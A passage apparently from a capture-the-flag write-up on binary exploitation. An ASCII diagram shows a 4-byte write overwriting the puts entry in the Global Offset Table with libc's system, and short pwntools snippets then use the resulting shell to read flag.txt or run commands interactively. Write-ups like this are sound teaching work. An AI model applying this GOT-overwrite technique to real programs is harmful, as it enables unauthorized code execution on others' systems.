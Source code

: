 ```text
  record                                            
┌─────────┐                                         
│         │                Global Offset Table      
│         │             ┌───────────────────────┐   
│         │             │         puts          │   
│         │      ┌─────▶│                       │──┐
│         │      │      ├───────────────────────┤  │
│  name   │      │      │        printf         │  │
│         │      │      │                       │  │
│         │      │      ├───────────────────────┤  │
│         │      │      │          ...          │  │
│         │  write 4    │                       │  │
│         │      │      └───────────────────────┘  │
├─────────┤      │                                 │
│         │      │                                 │
│ message │──────┘                                 │
│         │                                        │
└─────────┘                                        │
                                                   │
libc.so.6────────────────────────────────────┐     │
│  ┌─────┐                     ┌───────┐     │     │
│  │puts │                     │system │◀────┼─────┘
│  └─────┘                     └───────┘     │      
│                                            │      
│              ┌───────┐                     │      
│              │printf │                     │      
│              └───────┘                     │      
└────────────────────────────────────────────┘      

```

### Getting a Shell

Finally, we can get a shell after clearing any unnecesssary output and spawn a shell.  With the shell, we can send any command we want, so we just dump the flag file.

```python
# Have an interactive shell to get the flag
io.clean()
io.sendline('cat flag.txt')
io.recvline()
```

Alternately, we can use `io.interactive()` to have a truly interactive shell and issue whatever commands we want!

```python
io.clean()
io.interactive()
```

### Bringing it All Together
